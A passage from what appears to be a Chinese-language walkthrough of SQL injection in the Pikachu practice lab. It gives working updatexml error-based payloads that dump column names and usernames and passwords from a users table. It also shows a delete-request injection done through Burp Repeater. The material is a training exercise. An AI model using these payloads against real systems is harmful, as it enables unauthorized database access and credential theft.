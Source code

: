 查询指定表下的字段名

```
' or updatexml(1,concat(0x7e,(select group_concat(column_name) from information_schema.columns where table_schema=database() and table_name='users'),0x7e),2) or '
```

![50](https://luren-1310495826.cos.ap-beijing.myqcloud.com/blog/Pikachu_SQL/20220507144434.png)



查询指定表下的所有数据 

```
' or+updatexml(1,concat(0x7e,(select group_concat(id,username,password,level) from users),0x7e),2) or ' 
或用limit读取
' or updatexml(1,concat(0x7e,(select password from users limit 1,1)),1)or'
```

![51](https://luren-1310495826.cos.ap-beijing.myqcloud.com/blog/Pikachu_SQL/20220507144437.png)





### delete注入

 页面为空白的留言板，输入框是无法注入的。随便加入几条信息，可以看到留言列表多出了刚刚插入的信息。

![52](https://luren-1310495826.cos.ap-beijing.myqcloud.com/blog/Pikachu_SQL/20220507144439.png)



既然都说了时delete注入，那肯定和删除有关了，我们在删除时抓包，可以看到是get型传参

![53](https://luren-1310495826.cos.ap-beijing.myqcloud.com/blog/Pikachu_SQL/20220507144441.png)



 右键发送至Repeater，可以通过修改URL的id参数进行SQL注入。

修改id=58',报错，可判断存在SQL注入

![54](https://luren-1310495826.cos.ap-beijing.myqcloud.com/blog/Pikachu_SQL/20220507144443.png)



可以直接在url进行操作，查询数据库名pikachu

```
1+or+updatexml(1,concat(0x7e,database()),0)
或
59%20or%20updatexml(1,concat(0x7e,(select%20database())),1)	
```

![55](https://luren-1310495826.cos.ap-beijing.myqcloud.com/blog/Pikachu_SQL/20220507144445.png)



查询指定数据库表名
